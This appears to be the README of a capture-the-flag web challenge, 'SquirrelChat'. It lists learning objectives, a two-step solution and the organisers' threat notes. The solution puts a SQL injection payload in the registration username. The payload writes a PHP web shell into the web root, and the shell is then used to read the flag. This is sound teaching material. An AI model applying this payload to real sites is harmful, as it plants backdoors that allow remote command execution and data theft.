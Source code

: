 # SquirrelChat

## Learning Objective

1. Basics of LAMP stack
2. Web Reverse Proxy
3. SQL injection
4. PHP backdoor

## Solution

1. Register a new account with username: `testuser1'); SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/asdfasdf.php'; -- `
2. Visit `/asdfasdf.php?c=cat+/flag` to obtain the flag

## Threats identified

- Get stage 2 sol from `/chat/user?id=` using `LIMIT ... OFFSET` (mitigated)
- Player accdentially leak the sol via the public chatroom (mitigated)
- Player remove files from `/var/www/html` (mitigated)
- Player nuke the database (autosolver healthcheck pending)
